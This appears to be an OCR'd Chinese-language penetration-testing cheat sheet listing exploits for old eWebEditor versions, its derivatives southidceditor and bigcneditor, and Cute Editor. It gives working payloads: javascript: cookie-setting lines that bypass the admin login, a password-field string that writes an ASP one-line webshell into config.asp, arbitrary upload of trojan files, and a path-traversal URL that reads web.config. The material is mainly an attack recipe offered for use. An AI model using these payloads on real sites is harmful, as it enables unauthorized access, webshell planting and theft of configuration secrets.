### eWebEditor2.8.0 最终版删除任意文件漏洞

脆弱描述： 此漏洞存在于 Example\NewsSystem 目录下的 delete.asp 文件中，这是 ewebeditor 的测试页面，无须登陆可以直接进入。 攻击利用: (请修改 action 字段为指定网址) Del Files.html

### eWebEditor PHP/ASP 后台通杀漏洞

影响版本: PHP ≥ 3.0~3.8 与 asp 2.8 版也通用，或许低版本也可以，有待测试。 攻击利用: 进入后台/eWebEditor/admin/login.php,随便输入一个用户和密码,会提示出错了. 这时候你清空浏览器的 url,然后输入

javascript:alert(document.cookie=”adminuser=”+escape(“admin”)); javascript:alert(document.cookie=”adminpass=”+escape(“admin”)); javascript:alert(document.cookie=”admindj=”+escape(“1”));

而后三次回车,清空浏览器的 URL,现在输入一些平常访问不到的文件如../ewebeditor/admin/default.php，就会直接进去。

### eWebEditor for php 任意文件上传漏洞

影响版本:ewebeditor php v3.8 or older version 脆弱描述: 此版本将所有的风格配置信息保存为一个数组$aStyle,在 php.ini 配置 register_global 为 on 的情况下我们可以任意添加自己喜欢的风格，并定义上传类型。 攻击利用: phpupload.html

### eWebEditor JSP 版漏洞

大同小异，我在本文档不想多说了，因为没环境 测试，网上垃圾场那么大，不好排查。用 JSP 编辑器的我觉得 eweb 会比 FCKeditor 份额少得多。

### eWebEditor 2.8 商业版插一句话木马

影响版本:=>2.8 商业版 攻击利用: 登陆后台，点击修改密码—-新密码设置为 `1":eval request("h")’` 设置成功后，访问 asp/config.asp 文件即可，一句话木马被写入到这个文件里面了.

注意：可能因为转载的关系，代码会变掉，最好本地调试好代码再提交。

### eWebEditorNet upload.aspx 上传漏洞(WebEditorNet)

脆弱描述： WebEditorNet 主要是一个 upload.aspx 文件存在上传漏洞。 攻击利用: 默认上传地址：/ewebeditornet/upload.aspx 可以直接上传一个 cer 的木马 如果不能上传则在浏览器地址栏中输入 javascript:lbtnUpload.click(); 成功以后查看源代码找到 uploadsave 查看上传保存地址，默认传到 uploadfile 这个文件夹里。

### southidceditor(一般使用 v2.8.0 版 eWeb 核心)

[`navisec.it/admin/southidceditor/datas/southidceditor.mdb`](http://navisec.it/admin/southidceditor/datas/southidceditor.mdb) [`navisec.it/admin/southidceditor/admin/admin_login.asp`](http://navisec.it/admin/southidceditor/admin/admin_login.asp) [`navisec.it/admin/southidceditor/popup.asp`](http://navisec.it/admin/southidceditor/popup.asp) bigcneditor(eWeb 2.7.5 VIP 核心) 其实所谓的 Bigcneditor 就是 eWebEditor 2.7.5 的 VIP 用户版.之所以无法访问 admin_login.asp，提示“权限不够”4 字真言，估计就是因为其授权“Licensed”问题,或许只允许被授权的机器访问后台才对。

或许上面针对 eWebEditor v2.8 以下低版本的小动作可以用到这上面来.貌似没多少动作?☹

## Cute Editor

### Cute Editor 在线编辑器本地包含漏洞

影响版本: CuteEditor For Net 6.4 脆弱描述： 可以随意查看网站文件内容，危害较大。 攻击利用: [`navisec.it/CuteSoft_Client/CuteEditor/Load.ashx?type=image&file=../../../web.config`](http://navisec.it/CuteSoft_Client/CuteEditor/Load.ashx?type=image&file=../../../web.config)
